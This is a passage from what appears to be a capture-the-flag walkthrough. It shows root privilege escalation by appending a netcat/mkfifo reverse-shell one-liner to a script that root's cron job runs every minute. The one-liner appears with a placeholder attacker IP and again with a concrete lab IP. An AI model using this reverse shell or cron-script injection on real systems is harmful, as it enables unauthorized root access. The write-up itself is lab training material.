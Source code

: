 ![](assets/images/startup/startup_pspy.png)
<br>
<br>

We can see that the system is running `planner.sh` as root every minute! This means we just have to append our malicious reverse shell to the `/etc/print.sh` file and wait with a listener on our attacking machine. I grabbed the following line from [pentest monkey](https://jaytaylor.com/notes/node/1520886669000.html):

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKING-IP PORT >/tmp/f`

And in order to append it, we can use the `>>` redirect with the echo command:

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.1.218 1234 >/tmp/f" >> /etc/print.sh`

And now we get root!

![](assets/images/startup/startup_root.png)
<br>
<br>
